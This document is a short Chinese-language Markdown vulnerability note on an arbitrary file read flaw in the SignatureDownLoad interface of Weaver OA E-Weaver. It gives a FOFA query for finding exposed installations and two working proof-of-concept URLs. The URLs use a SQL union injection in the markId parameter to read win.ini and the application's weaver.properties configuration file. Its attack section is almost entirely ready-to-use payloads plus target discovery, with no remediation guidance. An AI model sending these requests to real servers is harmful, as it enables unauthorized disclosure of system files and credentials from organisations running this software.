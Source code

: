 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

泛微OA E-Weaver

## FOFA

```
app="泛微-E-Weaver"
```

## 漏洞复现

![image-20220706133659005](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207061336151.png)

验证POC

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![image-20220706133707852](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207061337908.png)

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![image-20220706133717202](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207061337932.png)